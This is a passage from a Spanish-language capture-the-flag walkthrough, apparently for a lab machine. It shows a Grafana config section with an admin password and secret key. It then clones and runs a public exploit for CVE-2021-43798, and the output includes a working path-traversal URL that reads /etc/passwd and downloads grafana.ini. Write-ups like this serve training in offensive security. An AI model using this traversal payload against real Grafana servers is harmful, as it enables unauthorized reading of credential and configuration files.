En la parte de `Security` vemos esto 

```bash
#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427

# used for signing
;secret_key = SW2YcwTIb9zpOOhoPsMm
```

Tenemos al parecer credenciales podemos probarlas para loguearnos en el panel de login de **Grafana** pero también podemos usar el **exploit** que encontramos en **Github** para ver si no se nos quedo algo pendiendo para enumerar <https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798>

```bash
❯ git clone https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798
Clonando en 'exploit-grafana-CVE-2021-43798'...
remote: Enumerating objects: 25, done.
remote: Total 25 (delta 0), reused 0 (delta 0), pack-reused 25
Recibiendo objetos: 100% (25/25), 250.08 KiB | 455.00 KiB/s, listo.
Resolviendo deltas: 100% (9/9), listo.
❯ ls
 exploit-grafana-CVE-2021-43798
❯ cd exploit-grafana-CVE-2021-43798
```

Ahora tenemos que editar el archivo **targets.txt** para poder aplicar todo el ataque 

```bash
❯ catn targets.txt
http://10.10.11.183:3000

```

Ahora ejecutamos la herramienta y le pasamos el archivo 

```bash
❯ python3 exploit.py
  _____   _____   ___ __ ___ _     _ _ ________ ___ ___ 
 / __\ \ / / __|_|_  )  \_  ) |___| | |__ /__  / _ ( _ )
| (__ \ V /| _|___/ / () / /| |___|_  _|_ \ / /\_, / _ \
 \___| \_/ |___| /___\__/___|_|     |_|___//_/  /_/\___/
                @pedrohavay / @acassio22

? Enter the target list:  targets.txt

========================================

[i] Target: http://10.10.11.183:3000

[!] Payload "http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd" works.

[i] Analysing files...

[i] File "/conf/defaults.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/defaults.ini".

[i] File "/etc/grafana/grafana.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.ini".
```